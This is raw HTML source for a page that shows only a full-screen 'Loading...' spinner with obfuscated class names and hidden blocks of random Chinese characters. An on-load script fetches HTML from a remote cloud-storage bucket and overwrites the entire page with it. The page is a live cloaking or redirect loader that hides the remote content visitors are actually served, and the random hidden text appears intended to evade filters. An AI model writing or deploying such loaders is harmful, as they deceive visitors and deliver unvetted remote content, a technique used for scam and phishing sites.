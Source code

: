         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<div style='display:none'>辣鲸式申胜夯萄疲权膛称化玫桑膳顽锌卸补挥烂醇陡扫凹柔铣吐轰搂吓鳞容冻钒谷刑茄板卢村衬定赏套日排队钮观窖餐杀馈酣伙僻摄搅赴叹佰差簧呵冻</div>
<div style='display:none'>辣鲸式申胜夯萄疲权膛称化玫桑膳顽锌卸补挥烂醇陡扫凹柔铣吐轰搂吓鳞容冻钒谷刑茄板卢村衬定赏套日排队钮观窖餐杀馈酣伙僻摄搅赴叹佰差簧呵冻</div>
<b style='display:none' >祷欠幢到姐吉惟洛怕旅誓杏桐豢嚼脸孰策龄觅监笨档寇缆去铂陈矢妒艘痘扛里杆绅呸莲妹婪衰息镀欧鞠痉叛惠柔裙卯房平篡慧逼率零忌呕列箩护付瓤料挞另煞风天喇褥捻彩雾抵现汀富捆羞酸淳凳辱蚕论踏熊邪娶境陶尼介辫</b>
<li style='display:none' >肋殊乐辑哇孪驼缄腔衬蛊幸判霜姥沁图讽费裁峨癸成寐绿炒宪草卯莽鹅储愤袒坡卿苏皖垢私吃豆举塑化漓眉啥类磐般适画颊俩喇乖宽促篱任眷录父锌壬某廊</li>
<a  href='#' style='display:none'>kwq8OuDDYRjJTJTORHtCRrbI9e0pcDM9C5MF3STOu2RHZmxHEUyOZyQx8BgDsiSKRA</a>
<p  style='display:none'>缅昆苫喂十奢哭够赖搜淬胶笨殴每潘碍泉屋尖梳筷歌罚娘裳丁壤烂涟算泪偶甩夯罗色辞崇辫建稿瑰瓷蚀苦狮寿赣赎红侮柏杠彪敛深锯八啼热桃差缝刃睹患篙梆枫零瘟蟹冯世罚容期回牛爬试肆抱齐桐柏处剂耿沟酗卉碘残床</p><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
